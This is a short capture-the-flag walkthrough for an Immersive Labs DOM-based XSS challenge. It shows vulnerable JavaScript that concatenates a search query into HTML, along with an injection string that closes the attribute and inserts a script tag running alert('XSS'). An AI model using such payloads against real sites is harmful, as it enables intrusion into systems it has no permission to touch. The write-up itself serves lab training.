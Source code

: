 ```yaml
---
date: 2025-01-15
categories: [CTF, ImmersiveLabs]
title: "IML - Cross-Site Scripting: Ep.4 – DOM-Based XSS"
tags: ['privilege escalation', 'rce', 'xss']

description: "Cross-Site Scripting Ep.4 – D - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.4 – DOM-Based XSS


![image1](../resources/67d569a52546432e9ab3078c02172071.png)

![image2](../resources/5ab24e8e01f04e53aafdcb9682f2fef3.png)

**<u>Original query:</u>**

```bash
var tracker = '<div hidden><img src="/resources/search_assets/search.gif?query=' + query + '"></div>'

```
**<u>Inject the following:</u>**

```bash
'"\>\<script\>alert('XSS')\</script\>\<"'

```
**<u>Malicious query:</u>**

```bash
var tracker = '<div hidden><img src="/resources/search_assets/search.gif?query=' + '"><script>alert('XSS')</script><"' + '"></div>'

```
Paste entire malicious code above into Search box

![image3](../resources/d391ec42b4634412a55705b92b912c33.png)


![image4](../resources/709124b3a54f47a28161d72ce125a907.png)
